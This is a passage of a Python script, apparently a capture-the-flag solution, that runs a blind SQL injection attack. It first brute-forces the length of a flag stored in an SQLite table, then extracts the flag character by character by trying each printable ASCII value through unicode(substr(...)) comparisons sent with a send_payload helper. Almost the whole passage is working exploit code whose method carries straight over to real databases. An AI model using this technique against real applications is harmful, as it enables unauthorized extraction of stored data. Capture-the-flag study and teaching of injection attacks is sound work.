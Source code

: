 ```python
				print(flag_table,end='\r')
				break

	print("\n\n[+] Extracted flag tablename: %s\n" % flag_table)

	
	# get length of flag content
	left = '(select length(flag) from %s)' % flag_table

	for i in range(1,70): # guessing flag would be max 70 chars

		sqli = sqli_temp.replace('_LEFT_',left)
		sqli = sqli.replace('_RIGHT_',str(i))

		#print(sqli)
		print(i,end='\r')

		res = send_payload(url,sqli)

		if res:
			flagDataLength = i
			break 

	print("\n\n[+] Found flag data length: %s\n" % flagDataLength)


	flag_data = ''

	# extract flag data
	
	for charPos in range(1,flagDataLength+1): # dataLength is either known or we extracted it beforehand

		left = '(select unicode(substr(flag,%d,1)) from %s)' % (charPos,flag_table)

		for char in range(32,127): # printable ascii range 32 to 126
			sqli = sqli_temp.replace('_LEFT_',left)
			sqli = sqli.replace('_RIGHT_',str(char))
			#print(sqli)
			res = send_payload(url,sqli)

			if res:
				flag_data = flag_data + chr(char) # append to extracted data from ascii to char
				print(flag_data,end='\r')
				break

	print("\n\n[+] Extracted flag data: %s\n" % flag_data)


def main():
	sqli()

if __name__ == '__main__':
	main()
```
